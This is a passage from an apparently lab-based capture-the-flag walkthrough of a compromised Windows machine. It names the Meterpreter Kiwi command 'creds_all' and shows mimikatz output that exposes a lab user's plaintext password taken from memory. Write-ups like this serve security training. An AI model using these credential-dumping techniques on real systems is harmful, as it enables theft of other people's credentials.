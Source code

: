 ### 5.7

> Which command allows up to retrieve all credentials?

```bash
  Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    ...[snip]...
```

### 5.8

> Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

  ```zsh
  kerberos credentials
  ====================

  Username  Domain     Password
  --------  ------     --------
  (null)    (null)     (null)
  Dark      Dark-PC    Password01!
  dark-pc$  WORKGROUP  (null)
```

---

ads

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

### Task 06: Post-Exploitation

### 6.1
